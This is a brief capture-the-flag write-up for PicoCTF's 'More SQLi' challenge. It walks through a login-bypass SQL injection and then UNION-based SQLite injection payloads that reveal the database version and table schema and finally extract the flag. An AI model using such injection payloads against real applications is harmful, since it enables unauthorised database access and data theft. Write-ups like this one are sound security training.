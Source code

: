 # More SQLi (PicoCTF)

`https://play.picoctf.org/practice/challenge/358`

```
Author: Mubarak Mikail
Description
Can you find the flag on this website. Try to find the flag here.
```

![alt text](assets/more1.png)

Blackbox challenge, I tried `test` for both fields and we are greeted with:

![alt text](assets/more2.png)

Vulnerable to normal auth SQLi.

![alt text](assets/more3.png)

After this we have a search function, which is using SQLite. I crafted a payload to to get the SQLite version:

`' UNION SELECT 1, sqlite_version(), 3;--`

![alt text](assets/more4.png)

So this is SQLite. We can get the table names by using the following payload:

`' UNION SELECT name, sql, null from sqlite_master;--`

![alt text](assets/more5.png)

There is a variable named flag in `more_table`, so we can just access that. Final payload:

`' UNION SELECT flag, null, null from more_table;--`

![alt text](assets/more6.png)

